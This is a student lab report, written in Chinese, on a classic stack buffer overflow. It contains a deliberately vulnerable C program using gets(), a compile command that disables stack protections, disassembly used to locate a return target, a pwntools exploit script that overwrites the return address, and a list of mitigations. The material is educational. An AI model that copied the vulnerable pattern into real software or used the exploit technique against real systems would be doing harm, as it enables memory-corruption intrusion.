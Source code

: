 # Attack Lab

> 刘铠铭 2020030014 计14

## 实验原理

利用缓冲区溢出对程序进行攻击，实现非法访问等操作。

## 环境配置

1. WSL2 Ubuntu22.04LTS
2. gcc version 11.3.0 (Ubuntu 11.3.0-1ubuntu1~22.04)
3. 编译时可直接执行 `make` 来关闭 Stack Canary 保护和 PIE 保护等。

## 实验步骤

1. 编写受害程序代码

    ``` c
    #include <stdio.h>
    #include <stdlib.h>

    void target() {
        printf("You find a secret room! Success!\n");
        exit(0);
    }

    void getbuf() {
        char buf[16];
        printf("Enter the password to the secret root:\n");
        gets(buf);
        return;
    }

    int main() {
        getbuf();
        printf("Failed to find the secret room!\n");

        return 0;
    }
    ```

    其中 `target()` 为被攻击程序，正常情况下不应被执行。

2. 编译
   
    `gcc -m32 -fno-stack-protector -no-pie source.c -o source`

3. 利用 `objdump -d source |less` 得到反汇编代码，从中可以找到如下信息：
   
    ``` shell
    08049196 <target>:
     8049196:	55                   	push   %ebp
    ```

    ``` shell
    080491c4 <getbuf>:
     80491c4:	55                   	push   %ebp
     80491c5:	89 e5                	mov    %esp,%ebp
     80491c7:	53                   	push   %ebx
     80491c8:	83 ec 14             	sub    $0x14,%esp
     80491cb:	e8 6e 00 00 00       	call   804923e <__x86.get_pc_thunk.ax>
     80491d0:	05 30 2e 00 00       	add    $0x2e30,%eax
     80491d5:	83 ec 0c             	sub    $0xc,%esp
     80491d8:	8d 55 e8             	lea    -0x18(%ebp),%edx
     80491db:	52                   	push   %edx
     80491dc:	89 c3                	mov    %eax,%ebx
     80491de:	e8 6d fe ff ff       	call   8049050 <gets@plt>
    ```

    可以得出缓冲区空间共 28bytes，`target()` 的起始地址为 0x8049196

    其中缓冲区空间也可以通过 gdb 得到：

    ``` shell
    [-------------------------------------code-------------------------------------]
    0x804920f <main+35>: push   eax
    0x8049210 <main+36>: call   0x8049060 <puts@plt>
    0x8049215 <main+41>: add    esp,0x10
    => 0x8049218 <main+44>: call   0x80491c4 <getbuf>
    0x804921d <main+49>: sub    esp,0xc
    0x8049220 <main+52>: lea    eax,[ebx-0x1fb8]
    0x8049226 <main+58>: push   eax
    0x8049227 <main+59>: call   0x8049060 <puts@plt>
    No argument
    [------------------------------------stack-------------------------------------]
    0000| 0xffffca80 --> 0xffffcaa0 --> 0x1 
    0004| 0xffffca84 --> 0xf7f9b000 --> 0x225dac 
    0008| 0xffffca88 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
    0012| 0xffffca8c --> 0xf7d96519 (add    esp,0x10)
    0016| 0xffffca90 --> 0xffffcd1f ("/home/kming/Project/Overflow/source")
    0020| 0xffffca94 --> 0x70 ('p')
    0024| 0xffffca98 --> 0xf7ffd000 --> 0x36f2c 
    0028| 0xffffca9c --> 0xf7d96519 (add    esp,0x10)
    [------------------------------------------------------------------------------]
    ```

4. 设计攻击程序
   
    ``` python
    # tool.py
    from pwn import *
    
    sh = process("./source")
    sh.recvline()
    sh.sendline(b'0'*28 + p32(0x8049196))
    print(sh.recvline())
    ```

## 实验结果

利用 pwntools 进行攻击，执行 `python tool.py`：

```python
from pwn import *

sh = process("./source")
sh.recvline()
sh.sendline(b'A'*28 + p32(0x8049196))
print(sh.recvline())
```

![image-20230507165100184](..\images\image-20230507165100184.png)

## 影响因素分析

针对栈溢出攻击，有如下常见的保护方式：
1. Stack Canary：在栈帧中插入随机的特殊值，返回时检查其是否被更改；
2. 数据执行保护（DEP）：防止攻击者执行位于可执行内存区域之外的恶意代码；
3. Address Space Layout Randomization（ASLR）：随机化可执行文件、库和操作系统组件的内存布局；
4. 栈的非执行标志（NX）：NX 位允许操作系统通过将内存页标记为不可执行来保护内存免受栈溢出攻击。

由于本实验仅考虑最简单的无保护措施下的栈溢出攻击，因此较为简单，否则应当尝试 ROP 等攻击方式。

## 完整代码

完整代码请参考 https://cloud.tsinghua.edu.cn/d/1a96b198a593475abf7f/

## 参考资料

- [CSAPP Attack Lab README.md](http://csapp.cs.cmu.edu/3e/README-attacklab)